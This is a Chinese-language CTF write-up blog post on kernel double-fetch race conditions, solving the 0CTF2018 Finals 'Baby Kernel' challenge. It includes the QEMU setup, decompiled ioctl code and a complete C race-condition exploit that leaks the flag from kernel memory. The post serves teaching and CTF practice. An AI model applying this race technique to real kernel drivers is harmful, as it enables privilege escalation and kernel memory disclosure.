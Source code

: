 ```yaml
---
layout: post
title:  "Kernel double fetch"
date:   2020-3-19
desc: ""
keywords: ""
categories: [Binary]
tags: []
icon: icon-html
---
```


# Kernel double fetch

## 条件竞争

👴学数电的时候学过竞争-冒险现象，组合逻辑电路中，同一信号经不同的路径传输后，到达电路中某一会合点的时间有先有后，这种现象称为逻辑竞争，而因此产生输出干扰脉冲的现象称为冒险。

👴不确定这是不是条件竞争祖宗，这⑧重要

当一个软件的运行结果依赖于进程或者线程的顺序时，就可能会出现条件竞争

条件

2. 多个并发流会访问同一对象
3. 至少有一个控制流会改变竞争对象的状态



## double fetch

double fetch产生于没有安全同步措施的多线程数据访问，是一种内核态与用户态之间的数据访问竞争

用户空间向内核传递数据时，内核通过通过 copy_from_user 等拷贝函数将用户数据拷贝至内核空间，在输入数据较为复杂时，内核可能只引用其指针，而将数据暂时保存在用户空间进行后续处理，此时，该数据存在被其他恶意线程篡改风险

两个用户线程，第一个准备用户数据并调用syscall，向内核传递数据。内核只引用其指针，对数据进行两次读取，第一次验证有效性，第二次真正使用。同时第二个进程利用条件竞争，在两次读取之间篡改用户数据，造成内核验证通过数据与实际使用数据不一致

double fetch引发的常见后果是数组访问越界和缓冲区溢出，从而造成内核崩溃或者提权，此外也可造成内核信息泄露等后果

## 0CTF2018 Finals Baby Kernel

这题要是和高校战役的kernel pwn一样，👴就strings出flag

```bash
strings baby.ko | grep flag
flag{THIS_WILL_BE_YOUR_FLAG_1234}
Your flag is at %px! But I don't think you know it's content
Looks like the flag is not a secret anymore. So here is it %s
flag
```

没给出bzImage，在IDA中可以看到版本4.15.0-22-generic，下载一波

start.sh

```bash
qemu-system-x86_64 \
-m 256M -smp 2,cores=2,threads=1  \
-kernel ./vmlinuz-4.15.0-22-generic \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet" \
-cpu qemu64 \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  -enable-kvm  \

```

init

```bash
#!/bin/sh
 
mount -t proc none /proc
mount -t sysfs none /sys
mount -t devtmpfs devtmpfs /dev
echo "flag{this_is_a_sample_flag}" > flag
chown root:root flag
chmod 400 flag
exec 0</dev/console
exec 1>/dev/console
exec 2>/dev/console

insmod baby.ko
chmod 777 /dev/baby
echo -e "\nBoot took $(cut -d' ' -f1 /proc/uptime) seconds\n"
setsid cttyhack setuidgid 1000 sh

umount /proc
umount /sys
poweroff -d 0  -f

```

baby_ioctl

```c
signed __int64 __fastcall baby_ioctl(__int64 a1, attr *a2)
{
  attr *v2; // rdx
  signed __int64 result; // rax
  int i; // [rsp-5Ch] [rbp-5Ch]
  attr *v5; // [rsp-58h] [rbp-58h]

  _fentry__(a1, a2);
  v5 = v2;
  if ( a2 == 0x6666 )
  {
    printk("Your flag is at %px! But I don't think you know it's content\n", flag);
    result = 0LL;
  }
  else if ( a2 == 0x1337
         && !_chk_range_not_ok(v2, 16LL, *(__readgsqword(&current_task) + 4952))
         && !_chk_range_not_ok(v5->flag_str, SLODWORD(v5->flag_len), *(__readgsqword(&current_task) + 4952))
         && LODWORD(v5->flag_len) == strlen(flag) )
  {
    for ( i = 0; i < strlen(flag); ++i )
    {
      if ( *(v5->flag_str + i) != flag[i] )
        return 0x16LL;
    }
    printk("Looks like the flag is not a secret anymore. So here is it %s\n", flag);
    result = 0LL;
  }
  else
  {
    result = 0xELL;
  }
  return result;
}
```

0x6666输出flag地址

flag结构体

```c
00000000 attr            struc ; (sizeof=0x10, mappedto_3)
00000000 flag_str        dq ?
00000008 flag_len        dq ?
00000010 attr            ends
00000010
```

0x1337三次check，数据是用户态数据，flag_str指向用户态数据，len和内核中flag len相等才能过check

过check之后如果flag和内核中的flag相同就会输出flag

利用条件竞争使传入的flag_str指针恰好在过check之后改为内核中的flag地址，就可以输出flag

创建一个进程不断的把flag_str改为内核中的flag地址

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>

#define TRYTIME 0x1000
#define LEN 0x1000

struct attr
{
    char *flag;
    size_t len;
};
unsigned long long addr;
int finish =0;
char buf[LEN+1]={0};
void change_attr_value(void *s){
    struct attr * s1 = s; 
    while(finish==0){
    s1->flag = addr;
    }
}

int main(void)
{
 

    int addr_fd;
    char *idx;

    int fd = open("/dev/baby",0);
    int ret = ioctl(fd,0x6666);    
    pthread_t t1;
    struct attr t;

    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);   

    system("dmesg > /tmp/record.txt");
    addr_fd = open("/tmp/record.txt",O_RDONLY);
    lseek(addr_fd,-LEN,SEEK_END);
    read(addr_fd,buf,LEN);
    close(addr_fd);
    idx = strstr(buf,"Your flag is at ");
    if (idx == 0){
        printf("[-]Not found addr");
        exit(-1);
    }
    else{
        idx+=16;
        addr = strtoull(idx,idx+16,16);
        printf("[+]flag addr: %p\n",addr);
    }


    t.len = 33;
    t.flag = buf;
    pthread_create(&t1, NULL, change_attr_value,&t);
    for(int i=0;i<TRYTIME;i++){
        ret = ioctl(fd, 0x1337, &t);
        t.flag = buf;
    }
    
    finish = 1;
    pthread_join(t1, NULL);
    close(fd);
    puts("[+]result is :");
    system("dmesg | grep flag");
    return 0;
}

```

